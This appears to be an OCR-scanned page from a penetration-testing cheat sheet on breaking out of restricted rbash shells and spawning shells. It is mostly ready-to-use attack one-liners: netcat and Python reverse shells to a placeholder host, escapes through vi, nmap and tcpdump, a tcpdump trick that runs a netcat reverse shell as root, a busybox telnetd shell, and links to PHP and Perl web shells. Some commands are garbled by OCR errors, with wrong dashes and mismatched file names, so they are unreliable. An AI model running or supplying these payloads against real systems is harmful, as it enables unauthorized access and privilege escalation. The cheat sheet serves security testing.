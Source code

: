 You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

ssh user@$ip nc $localip 4444 -e /bin/sh

enter user's password

python -c 'import pty; pty.spawn("/bin/sh")'

export TERM=linux

python -c 'import pty; pty.spawn("/bin/sh")'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

echo os.system('/bin/bash')

/bin/sh -i

perl —e 'exec "/bin/sh";'

perl: exec "/bin/sh";

ruby: exec "/bin/sh"

lua: os.execute('/bin/sh')

(From within IRB)
exec "/bin/sh"

(From within vi)
:!bash

From within vim
Breaking out of vim is done by ':!bash':

(From within vi)
:set shell=/bin/bash:shell

(From within nmap)
!sh

(From within tcpdump)
echo $’id\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test
chmod +x /tmp/.test
sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

from busybox
/bin/busybox telnetd -|/bin/sh -p9999

Pen test monkey PHP reverse shell
http://pentestmonkey.net/tools/web-shells/php-reverse-shel

php-findsock-shell - turns PHP port 80 into an interactive shell
http://pentestmonkey.net/tools/web-shells/php-findsock-shell

Perl Reverse Shell
http://pentestmonkey.net/tools/web-shells/perl-reverse-shell
